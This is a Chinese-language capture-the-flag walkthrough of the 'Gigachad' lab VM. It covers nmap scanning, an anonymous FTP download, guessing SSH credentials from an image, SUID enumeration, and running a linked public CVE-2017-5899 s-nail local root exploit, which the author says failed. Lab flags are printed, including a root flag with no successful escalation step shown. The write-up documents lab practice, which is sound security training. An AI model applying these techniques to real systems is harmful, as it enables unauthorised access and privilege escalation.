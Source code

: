 # Gigachad

:::note

[Linux VM] [Tested on VirtualBox] created by || tasiyanci

⏲️ Release Date // 2021-02-10

✔️ MD5 // 8bf513626e3154e29861b38b23051113

☠ Root // 116

💀 User // 124

📝Notes //
Tested on and exported from virtualbox.

:::

## 靶机启动

![靶机启动](img/image_20231254-205406.png)

靶机 IP：

```plaintext
192.168.56.113
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.113
Host is up (0.00044s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r-xr-xr-x    1 1000     1000          297 Feb 07  2021 chadinfo
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.56.102
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6afed61723cb90792bb12d3753974658 (RSA)
|   256 5bc468d18959d748b096f311871c08ac (ECDSA)
|_  256 613966881d8ff1d040611e99c51a1ff4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/kingchad.html
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:D9:9A:81 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.6
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## ftp 服务存在匿名登陆

```bash
┌─[✗]─[randark@randark-Parrot]─[~]
└──╼ $ftp 192.168.56.113
Connected to 192.168.56.113.
220 (vsFTPd 3.0.3)
Name (192.168.56.113:randark): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
dr-xr-xr-x    2 1000     1000         4096 Feb 07  2021 .
dr-xr-xr-x    2 1000     1000         4096 Feb 07  2021 ..
-r-xr-xr-x    1 1000     1000          297 Feb 07  2021 chadinfo
226 Directory send OK.
ftp>
```

将 `chadinfo` 文件下载到本地，发现为 zip 压缩文件

```bash
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Gigachad]
└──╼ $file chadinfo
chadinfo: Zip archive data, at least v1.0 to extract
```

解压后得到

```bash
why yes,
#######################
username is chad
???????????????????????
password?
!!!!!!!!!!!!!!!!!!!!!!!
go to /drippinchad.png
```

## 探测 web 服务

尝试直接访问

![访问 /](img/image_20231201-210140.png)

在原始返回中，发现以下数据

```plaintext
A7F9B77C16A3AA80DAA4E378659226F628326A95
D82D10564866FD9B201941BCC6C94022196F8EE8
```

尝试访问 ftp 服务中得到的路径 `/drippinchad.png`

![访问 /drippinchad.png](img/image_20231204-210407.png)

目测并不存在隐写，但是经过搜索，得到了图像中的地名：`maidenstower`

结合上文得到的用户名，组合为凭据

```plaintext
chad:maidenstower
```

尝试登录

```bash
┌─[randark@randark-Parrot]─[~/tmp/HackMyVM-Gigachad]
└──╼ $pwncat-cs chad@192.168.56.113
[21:07:34] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
Password: ************
[21:07:39] 192.168.56.113:22: normalizing shell path                                                                                                      manager.py:957
[21:07:40] 192.168.56.113:22: registered new host w/ db                                                                                                   manager.py:957
(local) pwncat$ back
(remote) chad@gigachad:/home/chad$ whoami
chad
```

## user pwned

```bash
(remote) chad@gigachad:/home/chad$ cat user.txt
0FAD8F4B099A26E004376EAB42B6A56A
```

## 提权探测

```plaintext title="sudo -l"
-bash: sudo: command not found
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/lib/openssh/ssh-keysign
/usr/lib/s-nail/s-nail-privsep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chfn
/usr/bin/umount
/usr/bin/newgrp
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

经过查阅资料，`s-nail-privsep` 存在 `CVE-2017-5899` 漏洞，可以用于提权

## `s-nail-privsep` `CVE-2017-5899` 漏洞利用

使用 poc：`https://github.com/bcoles/local-exploits/blob/master/CVE-2017-5899/exploit.sh`

```bash
(remote) chad@gigachad:/home/chad$ chmod +x s-nail-privsep_CVE-2017-5899.sh 
(remote) chad@gigachad:/home/chad$ ./s-nail-privsep_CVE-2017-5899.sh 
......

```

:::warning

s-nail-privsep 的漏洞我在本地未能利用成功，但是参考其他师傅的writeup，是存在成功的案例的，可能环境存在差异

:::

## root pwned

```plaintext title="/root/root.txt"
832B123648707C6CD022DD9009AEF2FD
```
